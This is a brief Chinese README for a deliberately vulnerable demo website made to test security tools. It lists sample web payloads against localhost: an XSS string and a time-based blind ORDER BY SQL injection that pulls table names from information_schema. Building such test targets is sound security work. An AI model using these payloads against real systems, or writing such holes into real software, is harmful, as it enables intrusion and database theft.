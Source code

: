 创建次仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

http://127.0.0.1/orderby.php?orderby=^(2-(if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)))

